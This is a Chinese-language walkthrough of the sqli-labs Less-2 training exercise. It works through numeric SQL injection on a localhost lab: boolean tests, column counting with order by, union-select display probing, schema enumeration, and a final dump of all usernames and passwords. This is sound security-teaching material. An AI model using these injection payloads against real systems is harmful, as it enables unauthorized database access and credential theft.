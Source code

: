 # Less-2

**前言**

​	**Less-2相较于Less-1，并无太大变化，唯一的区别在于由Less-1的字符型注入变成了数字型注入，但整体的处理方法不变**

与Less-1一样，将带值的ID作为参数输入

![1622094006798](1622094006798.png)

尝试提交id=1，能够看到页面发生变化，出现Dumb用户的密码，更改id的数值会有不同的用户名及密码出现，并且添加单引号后，页面抛出异常，说明sql语句里存在引号非法闭合，判断这里存在注入，这都与Less-1相同

## 2.1 判断sql注入的类型

判断是否为数字型注入？可以看到页面发生变化，在and条件下1=2不成立没有返回结果，所以Less-2是数字型sql注入

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 and 1=1
```

![1622094402067](1622094402067.png)

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 and 1=2
```

![1622094415545](1622094415545.png)

## 2.2 判断字段数量

判断方法同样是使用order by，结果与Less-1相同，字段数量为3

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 1 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 2 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 3 --+
http://localhost:8080/sqli-labs-master/Less-2/?id=1 order by 4 --+
```

![1622094686959](1622094686959.png)

## 2.3 确定显示位置

使用联合查询union select来确定结果集的显示位置，这里可以获得字段2和字段3的信息，注意id=-1是为了查询一个不存在的用户账户，来保证返回信息是自己构造的联合查询结果

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,2,3 --+
```

![1622094772527](1622094772527.png)

## 2.4 获取数据库信息

借助联合查询，利用函数来替换数字在显示位置获得返回的数据库信息

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),version() --+
```

![1622094895584](1622094895584.png)

## 2.5 获取表名和列名

MySQL数据库5.0以上版本默认存在information_schema数据库，该数据库包含数据库内的所有数据库名，表名和列名，所以我们可以借助该库，依次获得表名和列名

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![1622095190472](1622095190472.png)

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,database(),group_concat(column_name)  from information_schema.columns where table_schema='security' and table_name = 'users' --+
```

![1622095320921](1622095320921.png)

## 2.6 获取用户名和密码

最后dump出security数据库的所有账户和密码

```http
http://localhost:8080/sqli-labs-master/Less-2/?id=-1 union select 1,group_concat(username),group_concat(password) from security.users --+
```

![1622095493719](1622095493719.png)
